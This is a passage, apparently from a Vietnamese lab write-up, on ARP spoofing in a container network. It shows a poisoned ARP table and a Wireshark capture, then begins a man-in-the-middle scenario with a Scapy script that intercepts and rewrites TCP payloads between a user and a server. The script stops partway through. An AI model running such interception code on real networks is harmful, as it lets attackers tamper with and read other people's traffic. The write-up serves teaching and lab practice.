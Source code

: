 
- Lúc này ta thấy arp table của User đã bị thay đổi
```bash
Address                  HWtype  HWaddress           Flags Mask            Iface
10.61.7.20               ether   02:42:0a:3d:07:33   C                     eth0
root@e38b224c176e:/#
```

- Kiểm tra WireShark ta nhận được gói tin BROADCAST

![alt text](image-17.png)

Gói tin này thông báo cho tất cả các nút mạng trong LAN là `02:42:0a:3d:07:33` là địa chỉ MAC của thiết bị có IP `10.61.7.20`.

*Note: Khúc này nhớ lưu lại gói tin không tí phải làm lại.*

---

## III. Kịch bản tấn công 3.

Man in the middle. 
Kịch bản tấn công này sẽ sửa hết tất cả gói tin gửi từ User đến Server. Kiểu thay vì chào "hello" thì sẽ là "dcmm".

### 1. Mẫu
- `mitm.py`
```py
#!/usr/bin/python3
from scapy.all import *
import re

USER_IP = '<User_IP_Address>'
USER_MAC = '<User_MAC_Address>'
SERVER_IP = '<Server_IP_Address>'
SERVER_MAC = '<Server_MAC_Address>'

def spoof_pkt(pkt):

	if pkt[IP].src == USER_IP and pkt[IP].dst == SERVER_IP:

		newpkt = IP(bytes(pkt[IP]))
		del(newpkt.chksum)
		del(newpkt[TCP].payload)
		del(newpkt[TCP].chksum)

		if pkt[TCP].payload:
			data = pkt[TCP].payload.load
			newdata = data.upper()
			send(newpkt/newdata)
		else:
			send(newpkt)

	elif pkt[IP].src == SERVER_IP and pkt[IP].dst == USER_IP:
		newpkt = IP(bytes(pkt[IP]))
```